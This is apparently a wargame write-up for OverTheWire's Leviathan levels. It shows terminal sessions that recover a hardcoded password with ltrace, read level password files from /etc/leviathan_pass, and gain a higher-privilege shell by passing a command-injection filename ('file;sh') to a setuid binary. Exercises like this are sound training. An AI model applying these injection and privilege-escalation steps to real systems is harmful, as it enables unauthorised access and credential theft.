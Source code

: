 ```bash
eviathan1@gibson:~$ ltrace ./check
__libc_start_main(0x80491e6, 1, 0xffffd5f4, 0 <unfinished ...>
printf("password: ")                                                                              = 10
getchar(0xf7fbe4a0, 0xf7fd6f80, 0x786573, 0x646f67password: abc
)                                               = 97
getchar(0xf7fbe4a0, 0xf7fd6f61, 0x786573, 0x646f67)                                               = 98
getchar(0xf7fbe4a0, 0xf7fd6261, 0x786573, 0x646f67)                                               = 99
strcmp("abc", "sex")                                                                              = -1
puts("Wrong password, Good Bye ..."Wrong password, Good Bye ...
)                                                              = 29
+++ exited (status 0) +++
leviathan1@gibson:~$ ./check
password: sex
$ whoami
leviathan2
$ bash -i
leviathan2@gibson:~$ cd /etc/leviathan_pass/
leviathan2@gibson:/etc/leviathan_pass$ ls
leviathan0  leviathan1  leviathan2  leviathan3  leviathan4  leviathan5  leviathan6  leviathan7
leviathan2@gibson:/etc/leviathan_pass$ cat leviathan2
mEh5PNl10e
```
>ltrace shows that its string compare the given password with `sex` (lol why the hell game developer think that as a passwd) .so then i rerun the program without ltrace and put password sex. It gives me a terminal with `privilege escalation `of `leviathan2.` so i simple go to `/etc/leviathan_pass/` and cat the passwd. Gotcha !!! got password for leviathan2 is **`mEh5PNl10e`**

# Leviathan2 to Leviathan3
---------
```bash
leviathan2@gibson:~$ ls -la
total 36
drwxr-xr-x  2 root       root        4096 Apr 23 18:04 .
drwxr-xr-x 83 root       root        4096 Apr 23 18:06 ..
-rw-r--r--  1 root       root         220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root       root        3771 Jan  6  2022 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 15060 Apr 23 18:04 printfile
-rw-r--r--  1 root       root         807 Jan  6  2022 .profile
leviathan2@gibson:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename
leviathan2@gibson:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```
>got a binary file named `printfile` which takes file name as a argument and prints . i tried to print `leviathan3 passwd` file but it shows `error`. i tried to debug it with *`radare2`* (sorry i dont know how to show code of radare2 ) it showed me a map of a main function first they try to access the file if the file accessible then they try `system(/bin/cat filename`).if file is not accessible then they print that same error we got.
```bash
leviathan2@gibson:~$ touch 'file;sh'
touch: cannot touch 'file;sh': Permission denied
leviathan2@gibson:~$ cd /tmp
leviathan2@gibson:/tmp$ touch 'file;sh'
leviathan2@gibson:/tmp$ ~/printfile 'file;sh'
/bin/cat: file: Permission denied
$ whoami
leviathan3
```